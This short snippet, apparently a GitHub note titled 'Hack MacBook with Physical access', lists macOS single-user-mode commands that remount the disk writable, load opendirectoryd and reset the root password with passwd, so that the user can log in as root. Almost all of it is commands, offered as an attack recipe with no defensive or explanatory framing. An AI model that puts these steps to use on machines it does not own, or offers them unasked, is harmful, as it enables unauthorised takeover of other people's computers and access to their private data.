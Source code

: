 #Hack MacBook with Physical access##

##Reboot##
```command+s```
```/sbin/fsck -fy```
```/sbin/mount -uw/```
```launchctl load /System/Library/LaunchDaemons/com.apple.opendirectoryd.plist```
```passwd```
##Login as root using new Password##
